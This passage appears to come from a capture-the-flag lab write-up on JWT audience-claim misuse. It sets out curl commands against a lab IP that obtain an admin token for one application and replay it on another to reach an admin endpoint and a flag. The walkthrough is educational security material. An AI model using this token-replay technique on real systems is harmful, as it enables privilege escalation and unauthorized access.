 3. Authenticate to `example7` using the following data segment: `'{ "username" : "user", "password" : "password7", "application" : "appB"}'`. You will notice that an audience claim is added again and you are an admin this time.

4. Use this token again to verify yourself on both applications and see what happens.




```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7" , "application" : "appA"}' http://10.10.35.117/api/v1.0/example7

{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4"
}


curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4' http://10.10.35.117/api/v1.0/example7_appA?username=admin 

"not admin"

curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MCwiYXVkIjoiYXBwQSJ9.sl-84cMLYjxsD7SCySnnv3J9AMII9NKgz0-0vcak9t4' http://10.10.35.117/api/v1.0/example7_appB?username=user

"invalid audience"


curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password7" , "application" : "appB"}' http://10.10.35.117/api/v1.0/example7

{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o"
}


curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MSwiYXVkIjoiYXBwQiJ9.jrTcVTGY9VIo-a-tYq_hvRTfnB4dMi_7j98Xvm-xb6o' http://10.10.35.117/api/v1.0/example7_appA?username=admin 


{
  "message": "Welcome admin, you are an admin, here is your flag: THM{f0d34fe1-2ba1-44d4-bae7-99bd555a4128}"
}

```


https://jwt.io/
